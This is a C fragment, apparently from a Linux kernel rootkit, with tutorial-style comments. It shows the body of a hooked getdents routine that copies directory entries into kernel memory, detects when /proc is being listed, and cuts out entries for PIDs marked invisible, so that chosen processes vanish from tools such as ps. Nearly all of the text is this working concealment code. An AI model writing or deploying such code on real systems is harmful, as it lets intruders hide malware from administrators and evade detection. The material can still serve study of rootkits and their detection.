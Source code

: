 ```c
      /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L680
      * 
      * kzalloc - allocate memory. The memory is set to zero.
      * @size: how many bytes of memory are required.
      * @flags: the type of memory to allocate (see kmalloc).
      *
      * static inline void *kzalloc(size_t size, gfp_t flags)
      */
      /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L538
      *
      * Below is a brief outline of the most useful GFP flags
      * %GFP_KERNEL
      *	Allocate normal kernel ram. May sleep.
      */
      kdirent = kzalloc(ret, GFP_KERNEL);

      if (kdirent == NULL)
        return ret;

      // Copying directory name (or pid name) from userspace to kernel space
      err = copy_from_user(kdirent, dirent, ret);
      if (err)
        goto out;

      // Storing the inode value of the required directory(or pid) 
      d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;

      if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
        /*&& MINOR(d_inode->i_rdev) == 1*/)
        proc = 1;

      // Change which we will do
      while (offset < ret)
      {
        dir = (void *)kdirent + offset;

        if ((proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))))
        {
          if (dir == kdirent)
          {
            ret -= dir->d_reclen;
            memmove(dir, (void *)dir + dir->d_reclen, ret);
            continue;
          }
          prev->d_reclen += dir->d_reclen;
        }
        else
        {
          prev = dir;
        }
        offset += dir->d_reclen;
      }
      // Copying directory name (or pid name) from kernel space to user space, after changing 
      err = copy_to_user(dirent, kdirent, ret);
      
      if (err)
      {
        goto out;
      }

    out:
      kfree(kdirent);
      return ret;
```